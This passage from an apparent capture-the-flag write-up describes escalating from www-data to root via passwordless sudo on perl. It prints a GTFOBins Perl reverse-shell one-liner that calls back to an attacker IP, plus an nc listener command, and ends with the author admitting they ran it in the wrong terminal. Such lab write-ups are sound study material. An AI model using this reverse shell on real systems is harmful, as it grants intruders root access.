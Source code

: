 ### Accidentally Rev Shelling into My Attacking Machine
- Since we're logged in as the `www-data` user, we may as well check and see what sudo permissions we have. Using `sudo -l`, we can see that we can run perl as root without a password. Privilege escalation is as easy as going to [GTFOBins](https://gtfobins.github.io/) and grabbing the following syntax:
```perl
export RHOST=[attacker ip]
export RPORT=8888
perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

- Make sure a listener is set up on the attacking host using `nc -lvp 8888` then run the above code. Once done, a reverse shell with root permissions should be spawned and we can grab the following from the root directory:
	- root.txt

Is what I WOULD HAVE said had I paid more attention. I basically just ended up running this and gaining a reverse shell onto my attacking machine by putting it in the wrong terminal. This didn't work. 
